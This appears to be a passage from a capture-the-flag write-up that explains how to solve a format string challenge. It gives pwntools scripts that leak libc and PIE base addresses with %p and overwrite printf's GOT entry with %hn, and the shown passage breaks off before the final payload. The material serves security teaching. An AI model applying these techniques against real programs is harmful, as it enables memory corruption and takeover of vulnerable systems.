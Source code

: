 ```python
padding = 8 - ((7 + len(str(last_two_bytes_system))) % 8)
padding_payload = f'%{last_two_bytes_system}X%8$hn{'A'*padding}'.encode()
payload = padding_payload + p64(printf_got_address)

p.sendline(payload)
p.interactive()
```

### Echo 2 solution - works only locally

In this challenge by analyzing the file with `checksec` we can notice that this time PIE is enabled so we need to deal with different addresses when the file is loaded in memory. Thus, we need to leak the **libc base address** in a different way. First of all, by using the `%p` format specifier we can look for an address that could recall an arbitrary libc address (which happens to be the first one `%1$p`). Then, knowing that the offset between this address and the libc base is always the same (even with PIE enabled), we can calculate it just one time. This can be done by running the program one time and then calculating the difference between the address and the libc base (which we can look up by using the command `sudo cat /proc/<pid>/maps`). 

Now we we need the **printf got address**, to do so we need to leak the pie base address and then add the got offset of the printf function. We can do this by using the `%p` format specifier and see if we can find one of the address of the program. In our case `%19$p` is the address of the instruction `push rbp` and by subtracting its offset we obtain the **pie base address**. 

At this point we got everything we need to build the payload which is the same as before. 

```python
from pwn import * 

p = process("./bin", env={"LD_PRELOAD": "./libc.so.6"})
# p = gdb.debug(
#     "./bin",
#     """
#     break main
#     continue
#     """,
#     env={"LD_PRELOAD": "./libc.so.6"}
#     )
# p = remote('cyberchallenge.disi.unitn.it', 50231)

def little_to_big_endian(hex_str):
    hex_pairs = [hex_str[i:i+2] for i in range(0, len(hex_str), 2)]
    hex_pairs.reverse()
    big_endian_str = ''.join(hex_pairs)
    return big_endian_str

elf = ELF("./bin")
libc = ELF("./libc.so.6")
context.binary = elf

printf_offset = libc.symbols["printf"]

p.sendlineafter(b'> ', b'%1$p')
libc_leak = p.recvuntil(b'> ').decode().split('\n')[0]
print(libc_leak + " libc leak")
libc_base = int(libc_leak, 16) - (0x7b25d55feb43 - 0x7b25d5400000) 
print(hex(libc_base)+ " libc base")
libc.address = libc_base

p.sendline(b'%19$p')
rbp_leak = p.recvuntil(b'> ').decode().split('\n')[0]
print(rbp_leak + " rbp leak")
pie_base = int(rbp_leak, 16) - 0x0000000000001159
print(hex(pie_base) + " pie base")
elf.address = pie_base
```